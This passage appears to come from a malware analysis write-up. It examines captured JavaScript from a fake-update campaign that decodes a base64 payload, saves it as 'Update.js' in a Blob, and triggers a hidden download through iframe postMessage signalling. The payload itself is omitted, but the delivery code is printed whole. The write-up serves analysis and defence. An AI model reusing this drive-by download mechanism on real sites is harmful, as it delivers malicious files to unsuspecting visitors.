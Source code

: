 Yet another call to the stage2 domain. The response is below, more JS captured via BurpSuite.   

A few variables are created initially: a filename, an empty var called `file`, and a variable containing a base64 decoded string. String removed for readability, it was very long.
```JS
var filename = "Update.js";
var filePlain = window.atob('<long_b64_string>');
var file;
if (filename.substr(-4) == '.zip' || filename.substr(-4) == '.rar' || filename.substr(-4) == '.iso') {
    var binArray = new Uint8Array(filePlain.length);
    for (var i = 0; i < filePlain.length; i++) {
        binArray[i] = filePlain.charCodeAt(i);
    }
    file = new Blob([binArray], {
        type: 'application/octet-stream'
    });
} else {
    file = new Blob([filePlain], {
        type: 'application/json'
    });
}
var btn = document.createElement('a');
btn.href = URL.createObjectURL(file);
btn.download = filename;
document.body.appendChild(btn);
parent.postMessage('loaded', "*");
window.addEventListener("message", function(event) {
    if (event.data == 'download') {
        setTimeout(function() {
            btn.click();
        }, 100);
    }
});
```

An if/else statement checks for certain file extensions on the `filename` variable, and populate the `file` variable accordingly. I'm not sure whether the `filename` is populated dynamically in response to checks of the victim's system/IP/etc but this is possible. In both cases the `file` variable is created as a blob and contains either binary data or plaintext. In our case, the base64 decoded data saved to the blob appears to be even more Javascript. Referring to this as the payload.

Next, an `anchor` element is created and an objectURL referencing payload is assigned as the href parameter. Turning to the docs again, the createObjectURL method creates a representation of the File or Blob object passed to it. The download property is set to the filename variable, which causes the browser to treat the linked URL as a download, and assigns the name `Update.js` to the download. The `btn` node is then appended to the document body.  

Once the payload is extracted and configured as a "downloadable" link, the iframe sends a message to the original webpage with the contents `loaded`. Looking back at the previous section, recall a listener was created waiting for a message from the iframe with these contents. Once this message is received, the parent webpage will check whether the download button has been clicked by the user, and once again send the message `download` back to the iframe.  
